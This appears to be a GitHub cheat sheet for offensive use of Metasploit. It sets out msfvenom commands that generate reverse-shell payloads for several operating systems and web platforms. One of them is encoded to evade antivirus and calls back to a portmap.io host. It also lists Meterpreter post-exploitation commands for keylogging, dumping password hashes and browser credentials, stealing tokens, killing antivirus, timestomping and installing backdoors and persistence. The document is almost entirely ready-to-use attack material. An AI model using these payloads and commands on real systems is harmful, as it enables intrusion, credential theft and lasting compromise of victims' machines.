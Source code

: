 # Meterpreter-msfvenom
## 1.Msfvenom - generating shellcode
### Binaries
Linux:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

OR

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

```
Windows:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

OR

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

E.g 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=7229 -a x86 -f exe > /var/www/html/Shell.exe

OR

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 3 -b '\x00' LHOST=Hackeraj-59554.portmap.io LPORT=59554 -f exe > /root/Desktop/Shell.exe
```
Mac:
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
OR
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```
### Web Payloads

PHP:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
ASP:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
JSP:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
WAR:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```
### Script Payload
Python:
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
Bash:
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
Perl:
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
## 2.Meterpreter
Process:
```
getuid              hows user id
getpid              shows meterpreter process id
ps              ists running processes
migrate [ps]            migrates to given process (one that wont end/crash)
```
KeyLog: Ensure you are monitoring the correct session (Explorer.exe/WinLogin.exe)
```
idletime            shows how long machine has been idle for
keyscan_start           starts the key logger
keyscan_dump            outputs captured data
keyscan_stop            stops the keylogger
```
Channels: This allows you to do more than one thing at a time in meterpreter
```
execute -f cmd.exe -c       opens a new cmd.exe and creates a new channel for it
channel -l          lists the open channels
read [channel]          outputs data from channel
interact [channel]      allows you to jump into the channel
write [channel]         sends data to the channel
close [channel]         kills the channel
```
Session: Session0 is the local desktop. Session1+ are rdp sessions.
```
enumdesktops            shows currently open desktops such as winlogin etc
getdesktop          shows current desktop session meterpreter is in
setdesktop          changes to an already open desktop session
uictl disable keyboard      disables the keyboard of the desktop session
```
FileEdit: Ability to edit files atributes such as MACE
```
timestomp file.txt -c "30/12/1980 12:12:34" changes file stamp of file
timestomp file.txt -f sourcefile.txt        copys timestamp from sourcefile.txt
use priv            to load the priv extras
hashdump            to dump the SAM file :-)
```
Tokens: Incognito allows token stealing and other token functions
```
use incognito           loads the incognito into meterpreter
list_tokens -u          shows stealable tokens
impersonate_token       allows a token to be stolen
steal_token [psid]      allows ability to steal token of a process
rev2self            reverts to origional token
run post/windows/gather/cachedump   gets cached domain hashes
need to wget http://lab.mediaservice.net/code/cachedump.rb to framework3/modules/post/windows/gather
```
Sniffer: Allows promiscuos mode to be enabled ;-)
```
use sniffer         loads the sniffer functions
sniffer_interfaces      list interface 1,2,3,4,5,6,etc
sniffer_start [n]       starts the sniffer for the interface
sniffer_stats [n]       lists packets, time, etc..
sniffer_dump [n] file.pcap  dumps the capture locally
sniffer_stop            you guessed it ;-)
```
Meterpreter Scripts: These scripts perform various functions on the victim
```
run checkvm         checks if the target is a vm
run credscollect        dumps hashes and tokens to screen
run enum_firefox        dumps temp internet files from firefox - cookies, passwords, etc :-)
run get_application_list    shows installed applications
run killav          trys to stop all known AV progs
run get_local_subnets       enumerates local subnet info
run metsvc          creates a backdoor
run persistence         survices a reboot (without admin or system)
run schedulme -e file.exe -m 30 you'll need to man load the meterpreter.exe payload
run kitrap0d            allows priv escalation using CVE-2010-0232
```
[Facebook](https://www.facebook.com/Hackeraj/)
[Twitter](https://twitter.com/Hackeraj_np/)
[Instagram](https://www.instagram.com/hackeraj/)
[Youtube](https://www.youtube.com/Hackeraj/)
